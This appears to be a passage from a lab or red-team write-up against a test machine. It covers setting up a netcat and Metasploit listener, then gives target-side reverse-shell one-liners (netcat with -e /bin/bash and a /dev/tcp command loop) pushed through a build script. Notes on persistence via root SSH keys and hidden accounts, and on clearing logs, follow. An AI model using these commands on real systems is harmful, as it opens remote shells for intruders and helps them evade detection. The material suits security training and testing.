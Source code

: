For more of the details, see below.

#### Reverse Shell: ATTACKER

Use Netcat:

> `nc -l -p 9999 -vvv`

OR use Metasploit:

> `sudo msfdb init && msfconsole`

And set the Options, thusly (replacing `10.2.11.212` with your workstation IP address):

```metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.2.110.212
set LPORT 9999

exploit
```

#### Reverse Shell: TARGET

On the target machine (by-hand for testing, and then ultimately via `buildscript.sh`), connect to the listener on our attacker box with Netcat:

> `nc yyy.yyy.yyy.yyy 9999 -e /bin/bash`

However, since there are variations of `nc` and some don't allow the `-e` argument - if you get an error about that, you could use some Linux trickery with this statement:

> `exec 5<>/dev/tcp/yyy.yyy.yyy.yyy/9999 && cat <&5 | while read line; do $line 2>&5 >&5; done`

**NOTE:** Make sure to set `yyy.yyy.yyy.yyy` to the attacker IP address and `9999` to the attacker port.

[Source: https://incognitjoe.github.io/reverse-shells-for-dummies.html]

Also see: [buildscript.sh](downloads/src/buildscript.sh)


## PHASE 4: Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## PHASE 5: Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention

